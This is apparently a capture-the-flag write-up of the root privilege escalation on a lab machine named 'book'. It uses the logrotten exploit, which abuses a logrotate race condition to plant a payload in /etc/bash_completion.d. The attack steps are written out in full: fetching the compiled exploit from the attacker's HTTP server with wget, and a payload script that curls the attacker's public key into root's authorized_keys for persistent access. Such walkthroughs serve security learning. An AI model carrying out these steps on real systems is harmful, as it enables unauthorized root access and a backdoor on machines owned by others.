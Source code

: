 Running the `linpeas.sh` enumeration script on the machine, we notice an
interesting entry:
```
[+] Writable log files (logrotten) (limit 100)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation
#)You_can_write_more_log_files_inside_last_directory
#)You_can_write_more_log_files_inside_last_directory
#)You_can_write_more_log_files_inside_last_directory
Writable: /home/reader/backups/access.log
```

The vulnerability that affects `logrotate` is a race condition, in which we are
able to write to any file that the `logrotate` process has the permission to,
and it is explained
[here](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
really well.

We will use it to write out malicious payload to `/etc/bash_completion.d`,
which contains some scripts that `bash` runs upon any login.

Let's download and compile the `logrotten` exploit:
```
$ git clone https://github.com/whotwagner/logrotten && cd logrotten
Cloning into 'logrotten'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 87 (delta 0), reused 1 (delta 0), pack-reused 84
Unpacking objects: 100% (87/87), 416.19 KiB | 1.07 MiB/s, done.
$ gcc -o logrotten logrotten.c
```

To copy it on the machine, we can start a HTTP server with `python3 -m
http.server 1337` on our machine and download it on the remote machine with
`wget http://10.10.14.81:1337/logrotten`.

After generating a key with `ssh-keygen` on our machine, let's save on the
remote machine the payload that will download it and add it to the authorized
keys of root:
```
#!/bin/bash
curl http://10.10.14.81:1337/id_rsa.pub >> /root/.ssh/authorized_keys
```

Let's run the exploit:
```
reader@book:~$ ./logrotten -p ./payload backups/access.log
Waiting for rotating backups/access.log...
```

We now have to trigger the log rotation. We can do something like `echo test >> ~/backups/access.log` until we see this message from `logrotten`:
```
Renamed backups with backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```

As soon as we see the connection on our HTTP server we know that the payload has
been executed, so let's connect with ssh:
```
root@book:~# wc -c root.txt
33 root.txt
```

And here we go! Thanks for reading!
